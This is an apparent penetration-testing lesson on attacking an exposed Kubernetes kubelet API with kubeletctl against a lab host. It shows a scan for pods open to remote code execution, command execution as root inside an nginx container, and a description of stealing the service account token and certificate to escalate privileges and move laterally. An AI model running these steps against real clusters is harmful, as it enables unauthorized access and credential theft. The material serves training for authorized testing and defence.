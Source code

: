 
<a id="orgff9aaca"></a>

### Kubelet API - Available Commands

    kubeletctl -i --server 10.129.10.11 scan rce
    
    ┌─────────────────────────────────────────────────────────────────────────────────────────────────────┐
    │                                   Node with pods vulnerable to RCE                                  │
    ├───┬──────────────┬────────────────────────────────────┬─────────────┬─────────────────────────┬─────┤
    │   │ NODE IP      │ PODS                               │ NAMESPACE   │ CONTAINERS              │ RCE │
    ├───┼──────────────┼────────────────────────────────────┼─────────────┼─────────────────────────┼─────┤
    │   │              │                                    │             │                         │ RUN │
    ├───┼──────────────┼────────────────────────────────────┼─────────────┼─────────────────────────┼─────┤
    │ 1 │ 10.129.10.11 │ nginx                              │ default     │ nginx                   │ +   │
    ├───┼──────────────┼────────────────────────────────────┼─────────────┼─────────────────────────┼─────┤
    │ 2 │              │ etcd-steamcloud                    │ kube-system │ etcd                    │ -   │
    ├───┼──────────────┼────────────────────────────────────┼─────────────┼─────────────────────────┼─────┤

It is also possible for us to engage with a container interactively and gain insight into the extent of our privileges within it. This allows us to better understand our level of access and control over the container's contents.


<a id="org1827051"></a>

### Kubelet API - Executing Commands

    kubeletctl -i --server 10.129.10.11 exec "id" -p nginx -c nginx
    
    uid=0(root) gid=0(root) groups=0(root)

The output of the command shows that the current user executing the `id` command inside the container has root privileges. This indicates that we have gained administrative access within the container, which could potentially lead to privilege escalation vulnerabilities. If we gain access to a container with root privileges, we can perform further actions on the host system or other containers.


<a id="org38020a0"></a>

### Privilage Escalation

To gain higher privileges and access the host system, we can utilize a tool called [kubeletctl](https://github.com/cyberark/kubeletctl) to obtain the Kubernetes service account's `token` and `certificate` (`ca.crt`) from the server. To do this, we must provide the server's IP address, namespace, and target pod. In case we get this token and certificate, we can elevate our privileges even more, move horizontally throughout the cluster, or gain access to additional pods and resources.
